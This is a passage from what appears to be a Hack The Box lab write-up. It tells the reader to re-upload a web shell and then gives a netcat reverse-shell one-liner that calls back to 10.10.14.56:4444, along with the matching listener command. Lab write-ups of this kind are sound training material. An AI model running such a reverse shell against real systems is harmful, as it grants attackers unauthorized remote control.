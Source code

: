 If it shows "File not found", upload the shell again.

<img src="assets/HTB/Environment/image16.png" alt="Error Loading Image"/>

## Reverse Shell Access

Now we take a reverse shell for ease.


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.56 4444 >/tmp/f
```

```
nc -lvnp 4444
```

<img src="assets/HTB/Environment/image17.png" alt="Error Loading Image"/>
